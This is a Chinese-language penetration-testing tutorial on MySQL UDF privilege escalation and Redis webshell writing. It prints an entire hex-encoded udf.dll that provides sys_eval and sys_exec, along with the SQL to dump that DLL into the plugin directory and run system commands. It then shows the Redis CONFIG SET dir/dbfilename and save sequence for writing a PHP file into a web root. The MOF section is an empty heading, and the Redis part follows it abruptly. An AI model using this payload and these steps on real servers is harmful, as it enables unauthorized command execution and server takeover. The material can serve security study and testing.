## UDF提权

### 概念

经过查找资料：

> UDF，即user defined function用户自定义函数，它是mysql的一个拓展接口，可以用来创建自定义函数，类似于mysql自带的version()函数等

本来是用来拓展Mysql功能，但是由于udf的特性，甚至可以用它来创建一些特殊函数（系统命令执行等）。

------

### 在渗透测试中的作用

刚刚也说了，我们可以使用udf来创建函数，我们不妨来假设这样一种情况：

在渗透测试的过程中拿到了服务器的webshell，但是权限很低，很多操作无法执行，本地存在mysql服务且进程权限很高（管理员权限），我们可以尝试通过udf来创建一些mysql命令执行的函数，那么此时我们就可以使用mysql的高权限来执行系统命令，也就是所说的**UDF提权**

------

### 利用条件

①mysql用户有数据库操作权限（执行数据库命令，用以创建自定义函数）

②mysql用户有文件写入权限（将udf.dll写入对应目录）（如果有其他方法将udf.dll写入对应目录也可以）

> 综上所述，其实满足以上两种情况的mysql用户基本上只有root

------

### 版本差异

根据mysql的版本不同，我们需要将udf.dll写入的路径也有很大的差别；因为udf.dll可以算做mysql的插件，而mysql不同版本对插件的检索路径不同

这里以最重要的几个版本差别为例：

**mysql < 5.0**

版本太老就没有进行实测，经过查资料发现

在mysql小于5.0的版本中，没有对注册dll的位置进行限制，因此我们可以将udf.dll写入到任意路径即可


**5.0 ≤ mysql < 5.1**

在mysql 5.0版本新增了一个特性：对注册dll的位置进行了限制，dll的路径不能包含 “`/`” 符号，我的理解是防止包含规定以外的路径

要绕过这层限制，我们就需要将udf.dll写入到不需要使用 / 的路径，在windows环境下，满足这样要求的路径只有三种：

①系统自带的环境变量：`C:/windows/system32/`

②用户设置的环境变量：系统的PATH变量内路径

③盘符根目录：可以通过简写文件路径来绕过（C:udf.dll）



我们可以看到，在mysq小于5.1的版本中没有直接指定插件路径，我们只要将udf.dll写入到目标服务器的上述三种目录中即可


**mysql ≥ 5.1**



我们可以看到，在mysql大于等于5.1的版本中指定了插件路径为`./lib/plugin`，因此我们需要将udf.dll写入到指定的插件目录中

总结：

```sh
mysql < 5.0				#写入到任意目录即可
5.0 ≤ mysql < 5.1		#需要将udf.dll写入到目标服务器的环境变量或盘符根目录
5.1 ≤ mysql				#需要将udf.dll写入到指定的插件目录中
```

------

### 利用过程

这里以mysql版本大于5.1为例，过程如下：

#### mysql安装路径

```sh
mysql> select @@basedir;
+-----------------------------------------+
| @@basedir                               |
+-----------------------------------------+
| D:\phpstudy_pro\Extensions\MySQL5.1.60\ |
+-----------------------------------------+
1 row in set (0.01 sec)
```

#### 可操作路径

```sh
show global variables like "%secure%";
```



我们可以看到其中**secure_file_priv**的值为空，secure_file_priv是用来限制导出文件路径的，它的值一共有三种情况：

> ①值为null，表示mysql禁止任何导入导出
>
> ②值为路径，表示限制导入导出路径为该值
>
> ③值为空，表示不对导入导出进行限制

我们这里是第三种情况，可以导出到任何目录

#### 插件路径

```sh
select @@plugin_dir
```



#### 上传udf.dll到指定目录

上传udf.dll的方法需要视当前的情况来定，总会有各种异想天开的写入方法，这里就不多赘述，以最常见的几种方法优缺点为例：

------

##### Webshell直接上传

我们拿到webshell后，可以直接通过文件上传功能来写入编译好的udf.dll文件

优点：方便快捷

缺点：需要对相关目录有上传权限

------

##### 通过mysql写入十六进制

首先把udf.dll转换成十六进制数据并赋值给变量@a，注意udf.dll的版本，这里以windows 64位为例：

```mysql
set @a = unhex('4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000E80000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000677CBFDA231DD189231DD189231DD18904DBBF89211DD18904DBBC892A1DD18904DBAA89261DD189231DD0890F1DD18904DBAC89211DD18904DBA089221DD18904DBAB89221DD18904DBA989221DD18952696368231DD189000000000000000000000000000000005045000064860300A727A15A0000000000000000F00022200B020800002000000010000000800000109F000000900000000000100000000000100000000200000400000000000000050002000000000000C000000010000000000000020000000000100000000000001000000000000000001000000000000010000000000000000000001000000098B2000008020000B0B10000E800000000B00000B00100000050000050010000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000555058300000000000800000001000000000000000040000000000000000000000000000800000E0555058310000000000200000009000000012000000040000000000000000000000000000400000E02E727372630000000010000000B000000006000000160000000000000000000000000000400000C00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000332E393100555058210D240209E1E421439D3BDFB7DE7400000F0F0000002A0000490000D41DE9FEFF833A007450488B05A421000049890009A24008CD4973D20A9F109C1899CD9F34272096280FB70593666D83FDB7410B30B001C332C0C3CC00C215CC92C9BA810034716A6FEBCC16E46C096A471853FDBF1FA4631C0FB605591688401E41C7011E00FFED6DD62B8B63BF01750F3F42088338007506C64B26EBDC01017B4E2D632B05B9E4B228CE25227ED20CD26F1F28152AB001C3F66D7BC2BF83EC38344A43895C243084B7FFF6DBD90B09FF15C71F2B4885C04C8BD87512104C24DF6EAEB9608707202DC4388E897C242873EDCDFD33C048C7C1FF0033FBF2AE1C120976D9B75B1AF7D122E901890B2DCC00BE6FEB166F28E3026E404848DEDA7FDB29F938D87459488D0D40EE4E0E813832983DE4C1EB81403281480A9EE4435E4F81503281543281563261F37D4FB0018C48804028C34C49467607744E61DEED584917E49260680A703C6527CD18782056C740045CF8BF33B64342188B48048B008D4C010239BD1E77D27D8BD947107543706D8045EC1BE936130309884370900A00B69DEE10C8980A18BC0CB3C6B00E07103FBCB37DDB0F49A585C974066F5D17B7086D21CF93CF047424ADA3B9772D7110448B6949E2FA02C2EDDFBA52E2CE0212498D5C3001E83F0FFCE85CD7FDDD5FEBCB418B03C60430D2470D5734B70C58D7E22D0822D34313167BB75BCE2618007CA01CFF56677C84842F7198F4CF16C64373870D087C8C03D6E4240F79561E541E511E7292939C4E1E4B1E481E63C2425E3E1E1FCF2784EE87C71F1DA0981F4C89C68685EE44241824580F6C59897486BB86DB76381764BDB900D34C18284CB0DB7E302D4D8BF146E8E7B901EE9B6DC1EC04E00DDA4533ED4488670BEEF69B4FF04C39290F8413050673F215FDCFB8B9169125AC1C088BE8747B418D5508E1C9B6B13AC0E6CC177C7466A04B6640FA50669047FC3F42858E1B0B9529328D7936CE6F7D61C16C304375CD8CC74803C8F56636B724D470143E51C5BA08E1D9B68D39CC1CEB13225975AD886CDBB6F050EB258BC77004CD1930DDFE9CDB803E30E2154874229245FFB176D8827811FEF5887EDD4D174EBE5A0EEBC18424805EC606E71ADA0001380C4C38F12A10F8386C04C6F0A0581A87E792317FD3DC5CD8D6D09D58747A28F2023F73B773DF3E448D48406E41B80010B3748BD1F10DF7C7ED33C9AB441A5356104CEFA2DBE6B66C02C8D8154E1B8D54B94C350AEDE98D054A75890BA3B16E3B2DBC3133D2C7D0208925183BDF19B7B3BAD2C80DF2199D30AC581E29EB081433C0922FB384F13BE0064CEB0033C029001BB0DFB65538EC024510FF10C9196600FB6F7F6C900390483B0D89293F751148C1C11066F7DDDD6FDFB87502F3DAC1C910E9150AECCC405361203B8B7D1B5801A05FDCD25B0BFBEEF7F685DBC905112FD005020675098D430185BB76EFB6205B42C703D59B0D3C48B406634136670B1C5805B12006615BD85BC3CF55D27F6CC7C7C376FC608468E140DCFBF1C2C63831E83BE141BDD20F8503EE46BB7408075EE428073C0F8E0D8DE6B61B6E2BC58ED3105FDCFD3E76FB0FB12D602E0A741EF290B9E803C91D19BFDB36931D4275E841320783F802740FB9EF6DC3B31FB70ECA0208E2ED0D2F2E338E740FD2111912F874491412FC18DADC0B1FD958F847DF72165F1803B6BB2D701E4AD0C9EB081573ED12ECF6BEDBCF2774192D06429BD72D0698FBFB66D833DB891DB80E871DB906716FC7FEB59806E5413BD5DDE26541042530BB7DBBBD002C0978081E8BF3F048B93D883072B0B7920A63C7741AD64618D7D29B2F1C6B75E3EB037BF5A79A5ED6390C950CDAEB3FEA1F9F7DB7F08E8F080644892D312D1BC485C0678FED62771A15E5DE0DD6181ABE7FDDBBEEC7050725024585F67507B404BB833D14DDC96E73068B212A0B2D5C6F11DEDD264FE3029CF12C66012D3A273E9E9EBE10C58F38D240E468EC98717A60DCE91748C3B14D22190F6C20483A5ADBF308505851F0DD05BBEE77DF3D041F208915D12695D275133915D709ED7F38C3750B5A17C61E83FA017405040ADD6BE00275338931D39D08A3B71B0D34C84E20C574134AC68B07863DB9D7A64BFC1616E0C9016B3C1A0EDC83FFB092EBDA1535AB311BC11BDB5B0BD80C430C1DC817084D7BF787755C0B1841FFD385FF88FF03753970F79D75094A08AEEB8D1CA51E36EC648B171028ADEB06D8192ECC298ADC25F3008BC3659E8793708B218B8BF8B59D9E2A4055BF15EAA3894D7AFAB61B01018B080724B0D67D5D902DD9C2302F5E7D0AB1485825FF4DDB960C1E92387D2EDA02F101D7136FA3F875056C0CFCFA7D918844A4FD258B036983EB2F9E8E090CEFC6F852A1899E2681EC880068CD760DBFFE73153F156705B8C648F25845B7390CB8283D1F2C586170C339DEF61624EB754148B73DC6364238004044230430090E662FCF40280578254703055C73874C1C51494E7D4BB1077F4BF0EB222B8093447BDD837D738D0E83C00812D13E8D67DB7B642A059B240D20902F9C5BA25B701C2A7214097BC009CC3E1E666C926724766E833572DBFF0B70DC7A142F482C38B0BB2493827B8EF083D2396A14019B15650CCB36DC9255B624C80A271B83D76C1854BA6A234E336B1784F781C4ACA041592947A626231C0FD8CF53188186D9EF0D68295A4A148A8EF8ECECCDD64427CB1366EB75B908674B32D21DEA902D3A1C1128106464200A8B83AF334463971BCB36E418C323DB83A238243D05F62809993959B611402BDC678C90C136DE1BC3017F37320296247F15F4F6120D6276D81BC00383E8013C2075643F289C8D3D53041A787F4B8D1D4C068D13A08491790EC372B3326129A9EF4F137F2344720CC96681394D5A75FCB7C3FF174863513C813C0A5045E1137C0A180B020F94C063E343029F4C63413CFEC9B4EBED8D7ED24C03C1413C4014450458064525FFC25F6A4AB10018741F8B510B3BD2720A8B4108ED6FF8DB03C209D072104183C113C128453BCB72E16FC796B05D1CC1C3CF4CC1267AF7446992E1DA85DCBD1F4C2BC15FEAFB5ABED0140CCD0F3A24C1E81F600D2CFEF7D083E001EB02584FD644AB360196EBCAC0B66C3008EEC18B01A7FFAA128D3CC77627252205CC11CE78DCA606CB113F75463DA70FF0DD4603241B471EB801000000277C29847F3FE520000081BFF83C3DFC32A2DF2D992B7DC7F83074149D6FA3D00E7F5DC6268B2DC285586B212430BC6286B6489934E10AB9B4C856E04671D849460BB50E731C0EB110D9BE10A8D813FE6A4CB84C33DBCEB8FF00856037BA1623E9B8338975DDE016B1DF744D44D89C1D39B705DBDD8449F7D3093720D2FBDC4B4646463605DEE0E2E4B24746465E505A11000055C9A8AA298064547FB017D8069017303007D04E6F206172FFFFDFFE67756D656E7473096C6C6F77656420287564663A206C69625F6D79730BF6B7DD716C0D5F73085F696E666F29411C80EDFF232076657273696F6E20302E0134EDEDEE17A178706563744B657861076C79201A6DBB7DFB652073747243672074791B2070766175D8299B6D21724F2F7477996D60010B1F438EF6F603FB72206E616D4C436F756C246E6F74CCE8B66D3B63611320186D27796372FF850740310106023532023001240D0024F6FFB7FFD407001FC408001A740B15640C0010540B000B340A0004822776BBDCFE1918090018C40F13740E640B093427B763D4ED046217D41E5E3F1903241AEDBACF2C5007390F2A07801ABBDC6E8367165B16743711640C340B7BD85B770442130C390C01118350118B9B6DF705530133871C03E4001D5D90ED60430E057B743F09BAEEB0D80401072F67079403A06077DBC10701462F462B1074092F0DB6D94E3416033B01000715BB0BB6BD971574062F64F7DF21000884DDB640AE043439741F00BF20EEECEDB6140629034C341F0BA903E1C2DEBE240F05C305340A13234BD36D9B6E23431E14C45F0F470A75B713760554094B01098909A2071E7DE572BB1F1E742F12640D34870142B71582BB2E1311CF0C03CA96DD0E01380F387427005124A3AAFEC10246DDCD5D20D266D4FF555516C900178FA02A1B003011764BD56C039180BFA007E0126DD79DDD03703407F803680B0013026A76FBBA8603540B14021814170B581590FB2F07D9EEECF60A150310340727030034075BD5B9DD7003E0336F0724B3CC755DD7750B30074203AC0B9007F5B61B94DB03C03233920C1903C8BA05A0EB0B10074F8BE80B508375AFEB077303444707990BA0B65DD77507E503280BF0073A1C033C0038B7EB0B5007F71CA70B77B63BDB8B191D2F2007381DCB40071DAC7B5D83036C8307D30B601E9DED5EB3039B7C5F07C11E3BE0D0AE3BDB07031F3B1007D6039C33CA1255954A005525A3AAA8AA9251645455C9D09BA0887C0402C4FF16360157616974466F7253AC7F2B40FC6C654F626ABD14566972747561F63703C46C419A0D536574456E76126DBF01E26F6EE45661726961622B41EB2E40BC18437265B8546806640DF65BF76D47264375727222502A636573734914E283CD1226135469636BB6FD6E03026E6B517565727950036684DEDBB1F66D616E3716657218446973676FDBDBCF374C6962727879436192731A52746C633BB76D0970A2722D2C7874124CBDB5ADFD6F6F6B7570463EC26916B2747279DFB5078B17CD556E77E47E4973446562736F6BED75676763A7A56583E11DFEB6B77268616E64457883704046696CA56C85C58719F19319DAB61254176D65151153DAF6586B39352B537973176DFA81E87517454173426509A3DBFE434388A0895F616D73675FCC6990B3850BBF5F5F435F73708B6966285F7E267CDB766F5F64116F035F706F6922430B76DB2663DA5F64CE280009626B31142D325F7A13C417840B5F7B50705B6C735F330A6C212205DB5ACCD82A58096E73ED6BC982130FD76D643ED6BAD6DE756C343F15416D170CDEA3E0020AB52689A3B565C933A196063BC16DB15B0772652508661115080D5BA1739C29709F73149BB5ADB93932AE6E074D0F85D7BADBC56F736A663A70105E3B84ED70705831747B6D343FDF15F4C700F08C21180800E264860600A76EFB0FE327A15AE6F00022200B020808120CB07744B314132E0010000005CF1E6C9B02020433050002088000C302F663146D160100022E063AF76C650F0A50394330908DE8DB88223C1460E2D880D4BD0118020183703AACBB024B00303A011E4644A42B2E1054822D3BD810901200DC00B3DBC63B6F602E7264A76108550B53597761DD000C03162740022E26291B61F600D805100C22273616ECECC02E702850EB27244FD820FC007273726300136027B3C7013226650942FCA664B0702728421B4036C08D6D05CA7212D3060000000000009000FF0048894C240848895424104C8944241880FA010F854502000053565755488D35CDF0FFFF488DBE0080FFFF5731DB31C94883CDFFE85000000001DB7402F3C38B1E4883EEFC11DB8A16F3C3488D042F83F9058A1076214883FDFC771B83E9048B104883C00483E9048917488D7F0473EF83C1048A10741048FFC0881783E9018A10488D7F0175F0F3C3FC415BEB0848FFC6881748FFC78A1601DB750A8B1E4883EEFC11DB8A1672E68D410141FFD311C001DB750A8B1E4883EEFC11DB8A1673EB83E8037217C1E0080FB6D209D048FFC683F0FF0F843A0000004863E88D410141FFD311C941FFD311C9751889C183C00241FFD311C901DB75088B1E4883EEFC11DB73ED4881FD00F3FFFF11C1E83AFFFFFFEB835E4889F7B900120000B2004889FBEB2C8A074883C7013C80720A3C8F7706807FFE0F74062CE83C0177233817751F8B072500FFFFFF0FC829F801D8AB4883E9048A074883C70148FFC975D9EB0548FFC975BE4883EC28488DBE007000008B0709C0744F8B5F04488D8C30B0A100004801F34883C708FF96ECA1000048958A0748FFC708C074D74889F94889FAFFC8F2AE4889E9FF96F4A100004809C074094889034883C308EBD64883C4285D5F5E5B31C0C34883C4284883C704488D5EFC31C08A0748FFC709C074233CEF77114801C3488B03480FC84801F0488903EBE0240FC1E010668B074883C702EBE1488BAEFCA10000488DBE00F0FFFFBB00100000504989E141B8040000004889DA4889F94883EC20FFD5488D871702000080207F8060287F4C8D4C24204D8B014889DA4889F9FFD54883C4285D5F5E5B488D4424806A004839C475F94883EC804C8B442418488B542410488B4C2408E91F79FFFF000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000040000000000010018000000180000800000000000000000040000000000010002000000300000800000000000000000040000000000010009040000480000005CB0000054010000E404000000000000586000003C617373656D626C7920786D6C6E733D2275726E3A736368656D61732D6D6963726F736F66742D636F6D3A61736D2E763122206D616E696665737456657273696F6E3D22312E30223E0D0A20203C646570656E64656E63793E0D0A202020203C646570656E64656E74417373656D626C793E0D0A2020202020203C617373656D626C794964656E7469747920747970653D2277696E333222206E616D653D224D6963726F736F66742E564338302E435254222076657273696F6E3D22382E302E35303630382E30222070726F636573736F724172636869746563747572653D22616D64363422207075626C69634B6579546F6B656E3D2231666338623362396131653138653362223E3C2F617373656D626C794964656E746974793E0D0A202020203C2F646570656E64656E74417373656D626C793E0D0A20203C2F646570656E64656E63793E0D0A3C2F617373656D626C793E0000000000000000000000002CB20000ECB1000000000000000000000000000039B200001CB20000000000000000000000000000000000000000000044B200000000000052B200000000000062B200000000000072B200000000000080B200000000000000000000000000008EB200000000000000000000000000004B45524E454C33322E444C4C004D5356435238302E646C6C00004C6F61644C69627261727941000047657450726F634164647265737300005669727475616C50726F7465637400005669727475616C416C6C6F6300005669727475616C46726565000000667265650000000000000000A727A15A0000000074B30000010000001200000012000000C0B2000008B3000050B300007010000060100000001000008015000060100000701500002014000060100000901300000014000060100000901300003011000060100000C010000000130000E0120000A011000089B300009FB30000BCB30000D7B30000E3B30000F6B3000007B4000010B4000020B400002EB4000037B4000047B4000055B400005DB400006CB4000079B4000081B4000090B4000000000100020003000400050006000700080009000A000B000C000D000E000F00100011006C69625F6D7973716C7564665F7379732E646C6C006C69625F6D7973716C7564665F7379735F696E666F006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974006C69625F6D7973716C7564665F7379735F696E666F5F696E6974007379735F62696E6576616C007379735F62696E6576616C5F6465696E6974007379735F62696E6576616C5F696E6974007379735F6576616C007379735F6576616C5F6465696E6974007379735F6576616C5F696E6974007379735F65786563007379735F657865635F6465696E6974007379735F657865635F696E6974007379735F676574007379735F6765745F6465696E6974007379735F6765745F696E6974007379735F736574007379735F7365745F6465696E6974007379735F7365745F696E69740000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000');
```



选择数据库



新建一个表udf_data来储存udf.dll的数据，字段为data，类型为LONGBLOB





随便向表udf_data写入点数据观察一下





将刚刚值为udf.dll文件十六进制数据的变量a更新进表udf_data




查看udf.dll需要导出的路径



使用DUMPFILE将表udf_data中的数据导出到插件目录

```mysql
select data from udf_data into DUMPFILE 'D:/phpstudy_pro/Extensions/MySQL5.1.60/lib/plugin/udf.dll';
```



成功写入udf.dll

优点：不用依靠系统高权限，只需要mysql权限高即可

缺点：即使是root用户也会收到**secure_file_priv**参数的限制，无法写入

------

#### 利用udf.dll创建命令执行函数

udf.dll提供了以下几个函数：

```
sys_eval，执行任意命令，并将输出返回。
sys_exec，执行任意命令，并将退出码返回。
sys_get，获取一个环境变量。
sys_set，创建或修改一个环境变量。
```

我们就以sys_eval为例

```mysql
create function sys_eval returns string soname 'udf.dll'
```



创建成功，我们现在可以执行任意命令了

```mysql
select sys_eval('whoami');
```



------

### Mysql除了UDF以外的提权思路

UDF提权虽然是一个比较强大的方法，但是限制还是挺多的，很多时候不能用；视情况而定还可以选择其他的提权方法，这里以另外两种常见的方法为例：

#### MOF提权


## Redis渗透

### 写入Webshell

**适用范围：Windows，Linux**

说到redis写入文件，最快捷的方法就是利用redis的备份功能，涉及到的redis命令及参数有：

```shell
set 			#设置键值
CONFIG			#用来读取和设置redis的参数，可以通过配置文件的rename-command参数进行重命名
dir				#后接路径，表示redis的备份路径，默认是./ ，也就是redis的工作目录
dbfilename		#后接文件名，指定redis的备份文件名，默认是dump.rdb
save			#执行一次备份
```

**利用过程**

使用`config get *`命令我们可以看到redis的很多配置参数



看了刚刚的三个命令参数，已经很明显了

首先使用`CONFIG SET dir path`来指定备份文件目录（路径有空格需要引号），配合未授权访问和暴露路径漏洞更佳，可以直接写入web服务器路径以获取webshell，这里以本地的phpstudy为例：

```powershell
CONFIG SET dir C:\phpstudy_pro\WWW
```



然后使用`CONFIG SET dbfilename phpinfo.php`指定备份文件名，redis并未对此进行限制，因此我们可以任意指定后缀



set设置任意键值，`set test "<?php phpinfo(); ?>"`



save执行一次备份操作



写入成功

